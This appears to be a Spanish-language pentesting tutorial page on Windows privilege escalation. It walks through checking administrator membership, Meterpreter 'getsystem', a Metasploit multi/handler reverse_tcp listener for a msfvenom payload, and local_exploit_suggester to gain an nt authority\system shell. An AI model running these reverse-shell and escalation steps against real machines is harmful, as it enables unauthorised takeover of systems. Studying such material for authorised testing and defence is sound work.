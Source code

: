 # 🪟 Windows

## Bypassing UAC con UACMe

{% hint style="info" %}
El Control de Cuentas de Usuario (UAC) en Windows es una característica de seguridad que previene cambios no autorizados en el sistema. Cuando una acción requiere permisos administrativos, UAC solicita la confirmación del usuario mediante una ventana emergente. Esto ayuda a proteger contra malware y modificaciones no deseadas, asegurando que solo usuarios autorizados puedan realizar cambios críticos en el sistema.

![](<../.gitbook/assets/image (1).png>)
{% endhint %}

{% hint style="warning" %}
Para poder usar este método, necesitamos tener acceso a una cuenta que pertenezca al grupo de administradores locales de windows.

Para comprobarlo, podemos ejecutar los siguientes comandos:

```powershell
net users

net localgroup administrators
```

Ejemplo de un caso, en el que es viable este método:

![](<../.gitbook/assets/image (2).png>)
{% endhint %}

## Elevación automática con Metasploit

Cuando tenemos una consola meterpreter, podemos usar el comando "`getsystem`" para realizar una sencilla elevación de privilegios de manera automática:

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

## Metasploit + Msfvenom&#x20;

Podemos escalar privilegios con metasploit en windows. En primer lugar deberemos de generar un payload con msfvenom ( [#reverse-shell-tcp-con-exe](../explotacion/msfvenom.md#reverse-shell-tcp-con-exe "mention")) y pasarlo a nuestra maquina victima.

Después desde la maquina atacante, nos ponemos a la escucha con metasploit a través de multi/handler. Deberemos de ejecutar los siguientes comandos:

{% hint style="warning" %}
Los valores de los comandos de Metasploit deben ser lo mismos con los que se ha generado el payload en msfvenom (.exe) que está en la maquina victima
{% endhint %}

```bash
msfconsole

use /multi/handler

set LHOST 192.168.1.12    # IP Maquina atacante

set LPORT 4444 # Debe ser el mismo puerto que el que hemos puesto en el payload de msfvenom

set PAYLOAD windows/meterpreter/reverse_tcp # Debe ser el mismo que el que hemos puesto en el payload de msfvenom

run
```

Ahora ejecutamos el payload en la maquina victima y obtenemos una sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
En muchos casos en los que nos encontramos con que tenemos una meterpreter ya en el sistema, podemos ejecutar el comando "`run post/multi/recon/local_exploit_suggester`" para poder enumerar potenciales exploits para la escalada.
{% endhint %}

Una vez en la sesión de meterpreter (NO EN LA CMD DE WINDOWS), ponemos "`background`" y "`search local_exploit_suggester`":

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esta opción nos dará el exploit más adecuado para la escalada, lo seleccionamos "`use 0`" y miramos las opciones que tiene. En este caso, nos pide el ID de la sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el ID de la sesión (lo puedes averiguar con el comando "`sessions -l`"). Ejecutamos:

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, nos aparecerá una lista en colores verde y rojo. Los payloads de color rojo deberemos de omitirlos y centrarnos en los de verde.

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cualquiera de estos podría funcionar (no está asegurado), usamos uno de ellos seleccionándolo:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, ajustamos los valores necesarios ("`show options`"). Si el modulo funciona obtendremos una sesión de meterpreter en la que podremos abrir una shell ("`shell`") como `nt authority\system`. En el caso de que no funcione volvemos atrás ("`back`") y probamos con otro
